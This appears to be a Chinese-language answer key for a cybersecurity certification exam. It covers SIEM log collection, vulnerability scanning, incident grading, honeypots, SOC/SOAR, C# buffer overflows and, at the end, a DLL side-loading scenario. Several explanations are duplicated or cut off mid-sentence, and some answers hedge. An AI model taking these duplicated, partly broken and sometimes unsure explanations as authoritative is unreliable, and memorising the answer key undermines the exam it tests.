(D) WEF: 是 Windows 內建的功能，允許一台伺服器（收集器）從多台源伺服器訂閱並收集事件日誌。收集到的日誌可以再透過代理程式或 Syslog 轉發器送到 SIEM。配置 WEF 本身需要設定，但其收集機制是內建的，可以實現無代理（對源伺服器而言）的日誌收集。
考慮到「無需額外的透過 cmd 指令串接、設定、組態」，Agent-Based 方法在安裝後通常只需簡單配置即可運行。WEF 是內建功能，配置後可自動轉發。某些Syslog 代理也可能實現簡便部署。因此，(A)、(C)、(D) 都是可能的選項，取決於具體的工具和實現方式。(C) Agent-Based 和 (D) WEF 是最常見且相對簡便的方式。 *註：題目要求無需額外cmd指令“串接、設定、組態”，Agent安裝後通常需要基本組態，WEF也需要組態。Syslog需要Agent。嚴格來說可能都有組態需求，但相較於SNMP，A/C/D是更常用於傳送Windows事件日誌的協定/方式。在此選最貼切的 A/C/D。*
(A) Syslog: 雖然 Windows 本身不原生支援 Syslog 傳送事件，但可以透過安裝第三方代理程式（Agent）或轉發器將 Windows 事件轉換為 Syslog 格式發送到 SIEM。某些代理程式可以做到無需額外 cmd 設定。
(B) SNMP: 主要用於網路設備監控和管理，可以發送 SNMP Trap（陷阱）來報告特定事件，但通常不適合用來傳輸詳細的、大量的安全性事件日誌。
(C) Agent-Based: 在 Windows Server 上安裝由 SIEM 廠商提供的代理程式 (Agent)。這個代理程式會直接讀取本地事件日誌，並透過加密或特定協定將其傳送給 SIEM。通常安裝和基本配置後即可運作，無需複雜的 cmd 操作。
(D) WEF: 是 Windows 內建的功能，允許一台伺服器（收集器）從多台源伺服器訂閱並收集事件日誌。收集到的日誌可以再透過代理程式或 Syslog 轉發器送到 SIEM。配置 WEF 本身需要設定，但其收集機制是內建的，可以實現無代理（對源伺服器而言）的日誌收集。
考慮到「無需額外的透過 cmd 指令串接、設定、組態」，Agent-Based 方法在安裝後通常只需簡單配置即可運行。WEF 是內建功能，配置後可自動轉發。某些Syslog 代理也可能實現簡便部署。因此，(A)、(C)、(D) 都是可能的選項，取決於具體的工具和實現方式。(C) Agent-Based 和 (D) WEF 是最常見且相對簡便的方式。 *註：題目要求無需額外cmd指令“串接、設定、組態”，Agent安裝後通常需要基本組態，WEF也需要組態。Syslog需要Agent。嚴格來說可能都有組態需求，但相較於SNMP，A/C/D是更常用於傳送Windows事件日誌的協定/方式。在此選最貼切的 A/C/D。*
#17
2.2 滲透測試/源碼測試/資安健檢
【題組2】情境如附圖所示(附圖為文字描述)。該公司資安人員針對所有資訊資產進行了弱點掃描作業。試問有關該資安人員所實施的弱點掃描敘述, 下列何者錯誤? (附圖摘要: A公司為A級金融機構，因應駭客事件頻傳，資安長要求重新檢視內外部資安風險。)

答案解析
弱點掃描是識別系統或應用程式已知弱點的過程。
(A) Fortify Static Code Analyzer 是一款靜態應用程式安全測試 (SAST) 工具，用於分析原始程式碼以查找安全缺陷，而非執行「網站」弱點掃描（網站弱點掃描通常指動態應用程式安全測試 DAST 或網路層掃描）。因此，使用 Fortify SCA 執行網站弱點掃描的描述是錯誤的。
(B) Nessus Professional 是一款廣泛使用的網路弱點掃描器，可用於掃描作業系統、網路設備等的已知漏洞。用於執行系統弱點掃描是正確的。
(C) 掃描結果出來後，通常會根據風險等級（如中風險以上）進行優先排序，評估並規劃後續的修補或緩解措施。正確。
(D) 修補完成後，進行複掃以確認弱點是否已成功修復，是弱點管理流程的標準步驟。正確。
因此，錯誤的敘述是 (A)。
(A) Fortify Static Code Analyzer 是一款靜態應用程式安全測試 (SAST) 工具，用於分析原始程式碼以查找安全缺陷，而非執行「網站」弱點掃描（網站弱點掃描通常指動態應用程式安全測試 DAST 或網路層掃描）。因此，使用 Fortify SCA 執行網站弱點掃描的描述是錯誤的。
(B) Nessus Professional 是一款廣泛使用的網路弱點掃描器，可用於掃描作業系統、網路設備等的已知漏洞。用於執行系統弱點掃描是正確的。
(C) 掃描結果出來後，通常會根據風險等級（如中風險以上）進行優先排序，評估並規劃後續的修補或緩解措施。正確。
(D) 修補完成後，進行複掃以確認弱點是否已成功修復，是弱點管理流程的標準步驟。正確。
因此，錯誤的敘述是 (A)。
#18
2.1 安全維運
【題組2】情境如附圖所示。資安人員於風險評鑑過程中, 發覺該公司有一部防火牆已遭原廠宣告終止服務 (End of Service, EOS)。試問有關資安人員對於此一發現之後續作為, 下列何者最為適切?

答案解析
設備達到 EOS 意味著原廠不再提供技術支援、軟體更新和安全性修補。這會帶來嚴重的安全風險，因為新發現的漏洞將無法被修復。
(A) 立即阻擋所有外對內封包可能會中斷正常業務所需的連線，不是一個可行的通用措施。
(B) 立即阻擋所有內對外封包同樣會嚴重影響業務運作。
(C) 備份設定檔是良好的日常維運習慣，但在發現 EOS 時，這並不能解決根本的風險問題。
(D) 最適切的作法是進行風險評估：分析該防火牆保護的資產重要性、目前面臨的威脅、EOS 帶來的具體風險（如已知未修補漏洞）。基於評估結果，採取適切的控制措施，可能包括：
* 規劃並執行設備汰換。 * 在汰換前，加強周邊防護（如部署 IPS）。 * 限制通過該防火牆的流量類型。 * 加強對相關流量和設備的監控。
這是一個基於風險的、系統性的處理方式。
(A) 立即阻擋所有外對內封包可能會中斷正常業務所需的連線，不是一個可行的通用措施。
(B) 立即阻擋所有內對外封包同樣會嚴重影響業務運作。
(C) 備份設定檔是良好的日常維運習慣，但在發現 EOS 時，這並不能解決根本的風險問題。
(D) 最適切的作法是進行風險評估：分析該防火牆保護的資產重要性、目前面臨的威脅、EOS 帶來的具體風險（如已知未修補漏洞）。基於評估結果，採取適切的控制措施，可能包括：
* 規劃並執行設備汰換。 * 在汰換前，加強周邊防護（如部署 IPS）。 * 限制通過該防火牆的流量類型。 * 加強對相關流量和設備的監控。
這是一個基於風險的、系統性的處理方式。
#19
1.2 防護與應變實務
【題組2】情境如附圖所示。當資安人員進行風險評鑑與處理時, 接獲內部人員通報發生勒索病毒感染之資通安全事件, 該事件已造成檔案交換主機 (未涉及關鍵基礎設施維運) 內的檔案遭加密無法開啟, 系統亦無法正常使用, 影響了核心業務的正常運作且無法於可容忍中斷時間內回復正常運作。試問有關資安人員對於此一事件處理之作為, 下列何者錯誤?
答案解析
A 公司是 A 級金融機構，需遵守資通安全管理法及金融主管機關的規定。勒索軟體事件導致核心業務中斷且無法在RTO內恢復，屬於重大資安事件。
(A) 根據「金融機構通報資通安全事件作業規範」或「資通安全事件通報及應變辦法」，重大資安事件（通常指三級或四級）應在一小時內通報主管機關（金管會/資安署）。此事件影響核心業務且無法及時恢復，可能構成三級或更高級別事件，一小時內通報是正確的。
(B) 根據「資通安全事件通報及應變辦法」，資通安全事件等級劃分： * 一級：非核心業務資訊或系統受影響。 * 二級：核心業務資訊或系統受影響，但未影響業務持續運作。 * 三級：核心業務資訊或系統受影響，影響業務持續運作。 * 四級：影響國家安全或社會運作。
此事件影響核心業務且無法在RTO內恢復，已影響業務持續運作，應至少判斷為三級事件，而非二級。此選項錯誤。
(C) 隔離受感染的主機是事件應變的標準程序，以防止勒索軟體擴散到其他系統。
(D) 由於核心業務受到影響且無法及時恢復，啟動相應的業務持續計畫 (BCP) 是必要的應變措施，以維持業務運作或降低中斷衝擊。
(A) 根據「金融機構通報資通安全事件作業規範」或「資通安全事件通報及應變辦法」，重大資安事件（通常指三級或四級）應在一小時內通報主管機關（金管會/資安署）。此事件影響核心業務且無法及時恢復，可能構成三級或更高級別事件，一小時內通報是正確的。
(B) 根據「資通安全事件通報及應變辦法」，資通安全事件等級劃分： * 一級：非核心業務資訊或系統受影響。 * 二級：核心業務資訊或系統受影響，但未影響業務持續運作。 * 三級：核心業務資訊或系統受影響，影響業務持續運作。 * 四級：影響國家安全或社會運作。
此事件影響核心業務且無法在RTO內恢復，已影響業務持續運作，應至少判斷為三級事件，而非二級。此選項錯誤。
(C) 隔離受感染的主機是事件應變的標準程序，以防止勒索軟體擴散到其他系統。
(D) 由於核心業務受到影響且無法及時恢復，啟動相應的業務持續計畫 (BCP) 是必要的應變措施，以維持業務運作或降低中斷衝擊。
#20
2.1 安全維運
【題組2】情境如附圖所示。鑒於防火牆 EOS 的事件, 該公司資安長非常重視事前資通安全情資的蒐集與分析, 俾利公司能有足夠的時間來因應突發的資訊安全風險發生。試問有關資安人員對於資通安全情資的蒐集與分析作為, 下列哪些正確? (複選)

答案解析
資通安全情資 (Cyber Threat Intelligence, CTI) 指的是關於潛在或當前對組織資產的威脅的資訊，可以用來做出更明智的決策。
(A) 情資內容可以包括攻擊者使用的工具、技術、程序 (TTPs)，這些可能涉及繞過控制措施或利用漏洞的方法。正確。
(B) 情資也可以包含已發生事件的分析，了解其造成的損害和影響，以便其他組織借鑒和預防。正確。
(C) H-ISAC 是針對醫療衛生領域的情資分享平台。A 公司是金融機構，加入 H-ISAC 的相關性較低。錯誤。
(D) F-ISAC 是專門針對金融領域的資安情資分享與分析中心。作為 A 級金融機構，加入 F-ISAC 以獲取行業相關的威脅情資是非常適切且重要的。正確。
因此，正確的作為是 (A)、(B)、(D)。
(A) 情資內容可以包括攻擊者使用的工具、技術、程序 (TTPs)，這些可能涉及繞過控制措施或利用漏洞的方法。正確。
(B) 情資也可以包含已發生事件的分析，了解其造成的損害和影響，以便其他組織借鑒和預防。正確。
(C) H-ISAC 是針對醫療衛生領域的情資分享平台。A 公司是金融機構，加入 H-ISAC 的相關性較低。錯誤。
(D) F-ISAC 是專門針對金融領域的資安情資分享與分析中心。作為 A 級金融機構，加入 F-ISAC 以獲取行業相關的威脅情資是非常適切且重要的。正確。
因此，正確的作為是 (A)、(B)、(D)。
#21
2.1 安全維運
某安全性資訊與事件管理 (簡稱 SIEM) 系統依照 The Syslog Protocol (RFC5424) 標準設計, 因事件眾多, 希望只顯示必須立即採取行動或系統無法使用, 這類極為嚴重的訊息在特定的畫面上, 請問其篩選條件下列何者最為合適?
答案解析
RFC5424 定義了 Syslog 訊息的嚴重性級別 (Severity Level)，數值越小表示越嚴重：
- 0: Emergency (系統無法使用)
- 1: Alert (必須立即採取行動)
- 2: Critical (嚴重情況)
- 3: Error (錯誤情況)
- 4: Warning (警告情況)
- 5: Notice (正常但重要的情況)
- 6: Informational (資訊訊息)
- 7: Debug (除錯等級訊息)
#22
1.2 防護與應變實務
如附圖所示(示意圖)。某機關系統維運商系統更新作業疏失, 未發現網頁驗證功能關閉, 而導致學員無需身分驗證即可登入系統, 使有心人士可查看或取得敏感資料而有外洩之虞。下列何者是最「不」建議之防範措施? (示意圖描述: 維運商更新作業疏失導致驗證功能失效，學員可直接登入看到敏感個資)

答案解析
針對因更新疏失導致驗證功能失效的問題，應採取預防和控制措施：
(B) 上線前確認 (Pre-deployment Check)：在系統對外開放前，必須完整測試並確認所有功能（特別是身份驗證、權限控制等安全相關功能）都正常運作。這是基本的變更管理要求。
(C) 資料保護措施：即使發生驗證繞過，如果後端的敏感資料本身有加密儲存、顯示時進行遮罩、並遵循最小揭露原則，可以降低資料外洩的實際衝擊。
(D) 變更管理與測試：建立嚴謹的系統更新流程，包括在獨立的測試環境中進行充分測試（涵蓋不同角色、功能、安全性），確認無誤後才能部署到生產環境。
(A) 緊急應變機制主要是在事件「發生後」進行通報、處理、復原的程序。雖然應變機制很重要，但對於「防範」這類因更新疏失導致的問題，(B)、(C)、(D) 描述的事前預防和控制措施（如加強測試、落實變更管理、資料加密遮罩）更為直接有效。建立應變機制本身並不能直接防止更新疏失的發生。因此，相較於其他預防措施，單純建立應變機制對於「防範」此特定問題而言，是最不直接相關、效果最間接的，故為最不建議的「防範」措施。
(B) 上線前確認 (Pre-deployment Check)：在系統對外開放前，必須完整測試並確認所有功能（特別是身份驗證、權限控制等安全相關功能）都正常運作。這是基本的變更管理要求。
(C) 資料保護措施：即使發生驗證繞過，如果後端的敏感資料本身有加密儲存、顯示時進行遮罩、並遵循最小揭露原則，可以降低資料外洩的實際衝擊。
(D) 變更管理與測試：建立嚴謹的系統更新流程，包括在獨立的測試環境中進行充分測試（涵蓋不同角色、功能、安全性），確認無誤後才能部署到生產環境。
(A) 緊急應變機制主要是在事件「發生後」進行通報、處理、復原的程序。雖然應變機制很重要，但對於「防範」這類因更新疏失導致的問題，(B)、(C)、(D) 描述的事前預防和控制措施（如加強測試、落實變更管理、資料加密遮罩）更為直接有效。建立應變機制本身並不能直接防止更新疏失的發生。因此，相較於其他預防措施，單純建立應變機制對於「防範」此特定問題而言，是最不直接相關、效果最間接的，故為最不建議的「防範」措施。
#23
2.1 安全維運
如附圖所示(示意圖)。誘餌環境 (Decoys Environment) 常被稱為蜜罐 (Honeypot), 被拿來偵測、吸引與分析網路攻擊, 用於欺騙並轉移攻擊者對關鍵系統的注意力, 而達成提前預警回應的控制措施之一。關於誘餌環境相關敘述, 下列何者「最不正確」? (示意圖展示不同類型的Honeypot與網路的關係)

答案解析
蜜罐/蜜網的類型與特性：
(A) 描述了誘餌的基本概念，透過偽造的資源來欺騙攻擊者。正確。
(B) 整合式蜜網將誘餌直接部署在生產網路中，確實存在被攻擊者利用作為跳板或進行流量竊聽的風險。正確。
(C) 連接式蜜網（或稱低互動蜜罐）通常只模擬特定服務或功能，互動性有限。雖然它可以偵測嘗試利用已知漏洞或進行掃描的行為，但由於其仿真度有限，很難「完整」偵測「新」攻擊模式或「識別零日漏洞」攻擊。高互動蜜罐或沙箱環境更適合用於深入分析未知攻擊。因此，宣稱其能「完整偵測新攻擊模式與識別零日漏洞」是不正確的。
(D) 獨立式蜜網（或稱研究型蜜網）與生產環境完全隔離，主要用於研究和分析攻擊行為，其風險相對較低。正確。
因此，最不正確的敘述是 (C)。
(A) 描述了誘餌的基本概念，透過偽造的資源來欺騙攻擊者。正確。
(B) 整合式蜜網將誘餌直接部署在生產網路中，確實存在被攻擊者利用作為跳板或進行流量竊聽的風險。正確。
(C) 連接式蜜網（或稱低互動蜜罐）通常只模擬特定服務或功能，互動性有限。雖然它可以偵測嘗試利用已知漏洞或進行掃描的行為，但由於其仿真度有限，很難「完整」偵測「新」攻擊模式或「識別零日漏洞」攻擊。高互動蜜罐或沙箱環境更適合用於深入分析未知攻擊。因此，宣稱其能「完整偵測新攻擊模式與識別零日漏洞」是不正確的。
(D) 獨立式蜜網（或稱研究型蜜網）與生產環境完全隔離，主要用於研究和分析攻擊行為，其風險相對較低。正確。
因此，最不正確的敘述是 (C)。
#24
2.1 安全維運
關鍵基礎設施與製造業常有據點分佈全球之狀況, 因此須考量遠距情況下的實體安全差異, 是否對運營科技 (Operational Technology, OT) 的運作能力或安全性造成風險。關於運營科技的安全維運敘述, 下列何者最為適切? (複選)
答案解析
OT 環境的安全維運需考慮其特殊性及分散式特性：
(A) 保護據點間（尤其是跨越不信任網路）的通訊安全至關重要，應採用加密（保護機密性與完整性）和身份驗證（確保通信對象正確）。正確。
(B) 足夠的頻寬是確保監控數據（如 SCADA 數據、感測器讀數）和運營數據能夠及時、可靠地傳輸的基礎，對於遠程監控和管理至關重要。正確。
(C) 每個據點都可能成為攻擊入口點，因此都需要部署適當的網路安全防護措施（如防火牆、IPS、安全閘道器、存取控制）來保護本地 OT 環境。正確。
(D) 許多組織（尤其是在特定領域缺乏專業人才或資源有限的情況下）會選擇將 SOC 功能委外給專業的受管理安全服務提供商 (MSSP)。只要選擇合格的供應商並建立好管理機制，委外 SOC 是可行且常見的模式，並非絕對不應採用。錯誤。
因此，最為適切的敘述是 (A)、(B)、(C)。
(A) 保護據點間（尤其是跨越不信任網路）的通訊安全至關重要，應採用加密（保護機密性與完整性）和身份驗證（確保通信對象正確）。正確。
(B) 足夠的頻寬是確保監控數據（如 SCADA 數據、感測器讀數）和運營數據能夠及時、可靠地傳輸的基礎，對於遠程監控和管理至關重要。正確。
(C) 每個據點都可能成為攻擊入口點，因此都需要部署適當的網路安全防護措施（如防火牆、IPS、安全閘道器、存取控制）來保護本地 OT 環境。正確。
(D) 許多組織（尤其是在特定領域缺乏專業人才或資源有限的情況下）會選擇將 SOC 功能委外給專業的受管理安全服務提供商 (MSSP)。只要選擇合格的供應商並建立好管理機制，委外 SOC 是可行且常見的模式，並非絕對不應採用。錯誤。
因此，最為適切的敘述是 (A)、(B)、(C)。
#25
2.1 安全維運
【題組3】情境如附圖所示(附圖為文字描述)。該公司評估團隊針對資安監控維運中心先進行初步的任務界定, 試問下列關於資安監控維運中心的敘述何者最「不」適切? (附圖摘要: 某公司因應潛在資安威脅，設立SOC，並擬採購相關軟硬體及解決方案。)

答案解析
資安監控維運中心 (Security Operations Center, SOC) 的核心任務是集中監控、偵測、分析和應對資訊安全事件。
(A) 持續監控是 SOC 的基本職責，涵蓋網路、系統、應用等各個層面。
(B) 事件回應是 SOC 的關鍵功能，需要及時處理已識別的威脅。
(C) 事件記錄、分析、報告是 SOC 運作的重要環節，用於追蹤、改善和提供決策依據。
(D) SOC 的運作需要整合多種技術和工具（如 SIEM, SOAR, EDR, NDR, 威脅情資平台等），並結合人員專業知識和標準化流程，才能有效達成目標。認為僅靠導入「單一產品」就能達成所有目標，是對 SOC 複雜性的嚴重低估，是不適切的觀念。
因此，最不適切的敘述是 (D)。
(A) 持續監控是 SOC 的基本職責，涵蓋網路、系統、應用等各個層面。
(B) 事件回應是 SOC 的關鍵功能，需要及時處理已識別的威脅。
(C) 事件記錄、分析、報告是 SOC 運作的重要環節，用於追蹤、改善和提供決策依據。
(D) SOC 的運作需要整合多種技術和工具（如 SIEM, SOAR, EDR, NDR, 威脅情資平台等），並結合人員專業知識和標準化流程，才能有效達成目標。認為僅靠導入「單一產品」就能達成所有目標，是對 SOC 複雜性的嚴重低估，是不適切的觀念。
因此，最不適切的敘述是 (D)。
#26
2.1 安全維運
【題組3】情境如附圖所示。該公司評估團隊認為安全資訊與事件管理 (Security Information and Event Management) 對公司的資安監控維運中心是重要的基礎設施, 下列關於安全資訊與事件管理的功能敘述, 何項最「不」適切?

答案解析
SIEM (Security Information and Event Management) 的核心功能：
(A) 日誌收集與監控：SIEM 的基礎是從各種來源（網路設備、伺服器、應用程式、安全工具）收集日誌、事件和警報。
(B) 事件聚合與分析：SIEM 會將收集到的數據進行正規化、聚合，並根據預設或自訂的關聯規則進行分析，以識別潛在的安全事件並發出警報。
(C) 關聯分析、行為分析、異常偵測正是現代 SIEM (尤其是結合了 UEBA - User and Entity Behavior Analytics 的 SIEM) 的關鍵進階功能，用於發現傳統基於規則的方法難以偵測的複雜威脅。宣稱其「缺乏」這些技術是不正確的。
(D) 日誌儲存與查詢取證：SIEM 提供長期儲存日誌的功能，並允許安全分析師進行查詢、生成報表，以支持事件調查和數位鑑識。
因此，最不適切的敘述是 (C)。
(A) 日誌收集與監控：SIEM 的基礎是從各種來源（網路設備、伺服器、應用程式、安全工具）收集日誌、事件和警報。
(B) 事件聚合與分析：SIEM 會將收集到的數據進行正規化、聚合，並根據預設或自訂的關聯規則進行分析，以識別潛在的安全事件並發出警報。
(C) 關聯分析、行為分析、異常偵測正是現代 SIEM (尤其是結合了 UEBA - User and Entity Behavior Analytics 的 SIEM) 的關鍵進階功能，用於發現傳統基於規則的方法難以偵測的複雜威脅。宣稱其「缺乏」這些技術是不正確的。
(D) 日誌儲存與查詢取證：SIEM 提供長期儲存日誌的功能，並允許安全分析師進行查詢、生成報表，以支持事件調查和數位鑑識。
因此，最不適切的敘述是 (C)。
#27
2.1 安全維運
【題組3】情境如附圖所示。該公司的資安顧問建議可以考慮 SOAR 方案, 經其評估團隊了解, SOAR 可以簡單理解為具有自動化功能的進階式平台, 旨在幫助企業更有效地回應和解決資安問題, 以實現更全面和智慧化的資安管理。請問下列何項最「不」是 SOAR 具備的功能?
答案解析
SOAR 代表 Security Orchestration, Automation, and Response (安全協調、自動化與應變)。其核心功能旨在整合不同的安全工具和流程，並將標準化的應變任務自動化，以提高 SOC 的效率和應變速度。
(A) 安全編排 (Orchestration)：指協調多個不同的安全工具和系統協同工作。
(C) 自動化 (Automation)：指將重複性的、基於規則的應變任務自動執行（例如，自動隔離受感染主機、查詢威脅情資、阻擋惡意 IP）。
(D) 應變 (Response)：指透過編排和自動化來輔助或執行事件應變活動，提供更快速、更一致的回應。(Response在此更偏向應變動作，而非單純的回報)
(B) 安全設計 (Security Design)：指的是在系統或應用程式開發初期就將安全納入考量（例如 Security by Design, SSDLC）。這屬於開發階段的安全活動，並非 SOAR 工具在維運階段的核心功能。
因此，最不屬於 SOAR 功能的是 (B)。
(A) 安全編排 (Orchestration)：指協調多個不同的安全工具和系統協同工作。
(C) 自動化 (Automation)：指將重複性的、基於規則的應變任務自動執行（例如，自動隔離受感染主機、查詢威脅情資、阻擋惡意 IP）。
(D) 應變 (Response)：指透過編排和自動化來輔助或執行事件應變活動，提供更快速、更一致的回應。(Response在此更偏向應變動作，而非單純的回報)
(B) 安全設計 (Security Design)：指的是在系統或應用程式開發初期就將安全納入考量（例如 Security by Design, SSDLC）。這屬於開發階段的安全活動，並非 SOAR 工具在維運階段的核心功能。
因此，最不屬於 SOAR 功能的是 (B)。
#28
2.1 安全維運
【題組3】情境如附圖所示。該公司評估人員為借鑑業界的成功案例, 蒐集相關資料, 從雲端服務公司的資安維運經驗而言, 現代化安全維運模式 (SecOps) 重要的關鍵元素應包含下列哪些項目? (複選)
答案解析
現代化安全維運模式 (SecOps) 強調整合、自動化、情報驅動和主動防禦。其關鍵元素通常包括：
因此，SIEM (A), SOAR (B), 威脅情資 (D) 都是現代化 SecOps 的重要元素。*題目問關鍵元素，B SOAR 也應包含*。 *重新審視題目選項和SecOps概念：A(SIEM)、B(SOAR)、D(TI)都是現代SecOps的關鍵。C(SSDLC)偏向開發。若需選出最關鍵的，A和D通常被認為是基礎。但B(SOAR)代表的自動化也是現代化的重要趨勢。若需多選，A、B、D 較 C 更貼近 SecOps 維運階段的關鍵元素。* *(依照題目選項A、B、D較為合適)*
- SIEM: 提供集中的日誌收集、分析和事件監控基礎。(選項 A)
- SOAR: 實現應變流程的自動化和協調，提高效率。(選項 B)
- EDR/XDR (Endpoint/Extended Detection and Response): 提供端點和跨層面的威脅偵測與回應能力。
- NDR (Network Detection and Response): 提供網路層面的威脅偵測與回應。
- 威脅情資 (Threat Intelligence): 提供關於最新威脅、攻擊者 TTPs 和指標的信息，以指導防禦和偵測。(選項 D)
- 弱點管理 (Vulnerability Management): 持續識別和修補系統弱點。
- 威脅獵捕 (Threat Hunting): 主動搜尋潛藏在環境中的威脅。
因此，SIEM (A), SOAR (B), 威脅情資 (D) 都是現代化 SecOps 的重要元素。*題目問關鍵元素，B SOAR 也應包含*。 *重新審視題目選項和SecOps概念：A(SIEM)、B(SOAR)、D(TI)都是現代SecOps的關鍵。C(SSDLC)偏向開發。若需選出最關鍵的，A和D通常被認為是基礎。但B(SOAR)代表的自動化也是現代化的重要趨勢。若需多選，A、B、D 較 C 更貼近 SecOps 維運階段的關鍵元素。* *(依照題目選項A、B、D較為合適)*
#29
2.2 滲透測試/源碼測試/資安健檢
在 C# 源碼檢測中, 下列何種方法最有可能引起緩衝區溢位 (Buffer Overflow)?
答案解析
緩衝區溢位通常發生在程式嘗試向固定大小的記憶體緩衝區寫入超過其容量的數據時，導致數據覆蓋相鄰的記憶體區域，可能引發程式崩潰或被利用來執行惡意代碼。
(A) C# 中的
(B) 遞迴函數沒有退出條件會導致堆疊溢位 (Stack Overflow)，這是因為函數調用堆疊耗盡，與緩衝區溢位不同。
(C) C# 預設是記憶體安全的語言，不允許直接操作指標。但可以使用
(D) 非同步和多執行緒操作主要涉及競爭條件 (Race Condition)、死鎖 (Deadlock) 等並發問題，與緩衝區溢位關係不大。
因此，最有可能引起緩衝區溢位的是 (C)。
(A) C# 中的
List<T> 是動態調整大小的集合，內部會自動管理記憶體，不太可能直接因添加元素導致傳統意義上的緩衝區溢位。(B) 遞迴函數沒有退出條件會導致堆疊溢位 (Stack Overflow)，這是因為函數調用堆疊耗盡，與緩衝區溢位不同。
(C) C# 預設是記憶體安全的語言，不允許直接操作指標。但可以使用
unsafe 關鍵字啟用不安全程式碼區塊，允許使用指標進行直接記憶體操作。在這種情況下，如果程式設計師未仔細檢查邊界，就非常容易發生緩衝區溢位，類似於 C/C++ 中的情況。這是最有可能引起緩衝區溢位的方法。(D) 非同步和多執行緒操作主要涉及競爭條件 (Race Condition)、死鎖 (Deadlock) 等並發問題，與緩衝區溢位關係不大。
因此，最有可能引起緩衝區溢位的是 (C)。
#30
1.1 弱點/威脅/攻擊手法
如附圖所示(文字描述), 下面何項行為最有可能驗證 ExampleApp.exe 存在 DLL 側載 (DLL Side Loading) 漏洞?
(情境: ExampleApp.exe 啟動時自動加載 ExampleLib.dll。DLL 搜尋順序: 1. 應用程式目錄 > 2. 系統目錄 > 3. PATH 路徑。可寫入 C:\Temp\。目標: 放置惡意 Malware_ExampleLib.dll 讓其被加載，並寫入日誌到 C:\Temp\attack_log.txt)
(情境: ExampleApp.exe 啟動時自動加載 ExampleLib.dll。DLL 搜尋順序: 1. 應用程式目錄 > 2. 系統目錄 > 3. PATH 路徑。可寫入 C:\Temp\。目標: 放置惡意 Malware_ExampleLib.dll 讓其被加載，並寫入日誌到 C:\Temp\attack_log.txt)

答案解析
DLL 側載漏洞利用了 Windows 搜尋 DLL 的預設順序。根據題目條件，搜尋順序是：
1. 應用程式執行目錄
2. 系統目錄 (
(B) 將惡意 DLL 放在可寫入的
(C) 將惡意 DLL 放在應用程式目錄 (假設是
